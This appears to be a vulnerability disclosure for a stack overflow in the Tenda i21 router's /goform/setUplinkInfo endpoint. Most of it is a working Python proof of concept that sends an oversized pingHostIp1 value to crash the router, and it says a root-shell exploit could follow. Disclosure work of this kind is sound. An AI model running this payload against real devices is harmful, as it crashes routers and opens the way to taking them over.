


# Tenda i21 V1.0.0.14(4656) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address:https://www.tenda.com.cn/download/detail-2982.html

## Affected version



## Vulnerability details



In /goform/setUplinkInfo, pingHostIp1 is controlled by the user and will be spliced into auto_ping_ip by sprintf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x3000
p2 = b'upLinkEn=true&pingHostIp1=' + p1

p3 = b"POST /goform/setUplinkInfo" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell


